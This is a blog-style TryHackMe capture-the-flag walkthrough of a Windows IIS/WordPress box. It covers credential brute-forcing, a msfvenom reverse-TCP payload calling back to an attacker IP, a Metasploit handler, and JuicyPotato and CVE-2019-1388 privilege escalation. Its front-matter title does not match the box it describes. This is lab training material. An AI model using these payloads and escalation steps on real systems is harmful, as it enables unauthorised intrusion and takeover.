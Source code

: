 ```yaml
---
layout: single
classes: #wide
title: "Try Hack Me - Brainpan1"
toc: true
toc_sticky: false
author_profile: true
collection: posts
categories: [CTF, Try Hack Me]
tags: [bufferoverflow, wine, binary, nmap]
---
```


![title](/assets/images/retro/title.png)  
About this box: A windows IIS server with some pretty straightforward logic. Or so I thought..

# Intro
This box on the outside looks pretty simple. An IIS server with a `/retro` endpoint that is findable with a nmap scan. However, what was very interesting about this machine is I couldn't get a persistant shell for the life of me. Meterpreter worked, however shells would die upon spawning.

Anyhow let us begin :smiling_imp:

# Enumeration
Upon navigating to the ip of the machine, we are presented with a MS-IIS server. Recently MS pushed an update allowing for powershell to be ran on an endpoint. However, for this box that doesn't present to be the case.

Nmap, tells us we have 2 ports an RDP on port 3389, and the IIS server that we initially found on 80.
![nmap](/assets/images/retro/nmap.png)

Running a gobuster on the IIS server, finds us a `/retro` endpoint. This endpoint allows us to ge tthe login credentials for the rdp and wordpress server.

![retro](/assets/images/retro/retro.png)

The main user of this wordpress site writes a lot about how cool he thinks the retro exploits were. Reading through his posts, we see this post:
![wade](/assets/images/retro/wade.png)

Now, if you haven't seen the movie... The main characters alias in the world of the OASIS is parzival. Whipping up a custom wordlist (because he said he mispelled it a lot in his post) I brute forced with wpscan. 

This left us with the credentials `Wade:parzival`. The brute force wasn't all that necessary due to wade leaving a comment on his own post saying how to spell said user name. However I thought it would be interesting to try to create a custom wordlist with cewl and ai. 

# Rev shell
When attempting these challenges I need to think about what I have access to a little more. In the past, I have utilized wordpresses theme php to make a reverse shell. Spacing that there was RDP ACCESS!!!!

So, I did just that. With tampermonkey's php reverse shell, I got into the box... and then was kicked out.

This machine didn't like shells. They would spawn then terminate immediately. Or, they would hang. I ultimately used msfvenom to make a php payload and then used msfconsole to listen for the request. Meterpreter was the only kind of shell I could get. And after getting it, I couldn't spawn shells :sob:

# /get priv

Now with the shell out of the way, it was time for priv-esc. Looking up the system information with sysinfo in meterpreter I now knew that I was on a 2016 windows server. And the cool thing about these servers if we have the permission `seimpersonateprivilege` we can run the mallicious potato :potato:

Running `getpriv` within our meterpreter shell we can see that we have the `seimpersonateprivilege` set on our user of the IIS server.

![priv](/assets/images/retro/priv.png)

Time to upload the potato!!! (you can get it [here](https://github.com/ohpe/juicy-potato))
* `upload potato.exe` 

Now its time to make the payload:
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.13.53.1 LPORT=8888 -f exe -o 8888payload.exe`  
NOTE: make sure to replate the ip of LHOST with your own 

Make the msfconsole session:
1. `msfconsole`
2. `use exploit/multi/handler`
3. `set lhost tun0`
4. `set lport 8888`

running the potato with `execute -H -f cmd.exe -a "/c C:\Temp\JuicyPotato.exe -t * -p C:\Temp\8888payload.exe -l 443"`  
NOTE: we have to use execute since we cant spawn a shell & we are in meterpreter

# root perms

I had to wait a little while for the connection to hit, but when it did NT/ADMIN BBY.

Now with root perms, go get the user.txt and root.txt


# 2nd path
apparently this box also had a certification bug. This allowed us to utilize the `hhupd.exe` in the recycle bin to get admin as well. 

To start off we will RDP into the box with wade's credentials: `wade:parzival`

We see that there is a file `hhupd.exe` in the recycle bin.

![hhupd](/assets/images/retro/hhupd.png)

Looking up this file we find a lot of blog writeups about the vulerability `CVE-2019-1388`

Opening up chrome, we can also see a link to the page `https://nvd.nist.gov/vuln/detail/CVE-2019-1388`.

So, its safe to conclude that this file is probably what we were looking for. 

The description of this bug is:

![cve](/assets/images/retro/cve.png)

A windows certificate bug... I wonder what hhupd does then.

Running it we are presented with a login for the admin, and then there is a blue underlined string of words we can click on:

![login](/assets/images/retro/login.png)

Clicking on it twice we can see the credentials of the certificate that was used.

Opening the certificate link in the web browser (I couldn't get this part to work). We see that the page didn't load. But wait, according to [here](https://www.hackingarticles.in/retro-tryhackme-walkthrough/) the site doesn't need to be seen, just loaded.

Save the page and type in `C:\WINDOWS\system32\cmd.exe` into the explorer search bar.

And BOOM NT/Authority as the user.

# Learning
- I didn't know about the mallicious potato
- meterpreter execute command

Even though I didn't learn much, IMO it was a very fun box. Big thank you to the creator!

If you read this far, thank you for reading! I hope I could help you on your own ctf journey.

-ryu out